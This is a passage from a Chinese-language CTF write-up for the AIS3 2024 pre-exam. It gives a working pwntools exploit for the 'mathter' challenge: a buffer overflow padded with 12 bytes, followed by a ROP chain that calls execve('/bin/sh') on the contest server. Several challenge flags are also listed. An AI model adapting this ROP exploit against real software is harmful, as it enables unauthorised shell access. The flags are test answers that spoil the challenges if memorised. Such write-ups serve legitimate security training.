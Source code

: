 solution:

先送 q 跳出 calculator()，接下來因為接收的字串宣告大小為 0x4，加上 save rbp 的 0x8，因此要先送 (0x4 + 0x8) 的字串，然後再串上 ROP Chain 就可以拿到 shell 了

```python
from pwn import *
context.arch = 'amd64'
#r = process('./mathter')
r = remote('chals1.ais3.org', 50001)
r.sendlineafter(b': ', b'q')
rop = flat(
    0x00000000004126a3, # pop rsi ; ret
    0x4bc000, # writable address
    0x000000000042e3a7, # pop rax ; ret
    b'/bin/sh\x00',
    0x000000000042f981, # mov qword ptr [rsi], rax ; ret
    0x000000000042e3a7, # pop rax ; ret
    0x3b, # execve
    0x0000000000402540, # pop rdi ; ret
    0x4bc000, # writable address
    0x00000000004126a3, # pop rsi ; ret
    0x0, # NULL
    0x000000000047b917, # pop rdx ; pop rbx ; ret
    0x0, # NULL
    0x0, # NULL
    0x00000000004013ea, # syscall
)
leave = b'A' * (0x4 + 0x8) + rop
r.sendlineafter(b']\n', leave)
r.interactive()
```

![image](/images/ais3-mfctf-pre-exam-2024/ais3-mfctf-pre-exam-2024_image22.png)

AIS3{0mg_k4zm4_mu57_b3_k1dd1ng_m3_2e89c9}

## Crypto

全都沒解

## misc

### Welcome

題目點開就有 flag 了

![image](/images/ais3-mfctf-pre-exam-2024/ais3-mfctf-pre-exam-2024_image23.png)

AIS3{Welc0me_to_AIS3_PreExam_2o24!}

### Quantum Nim Heist
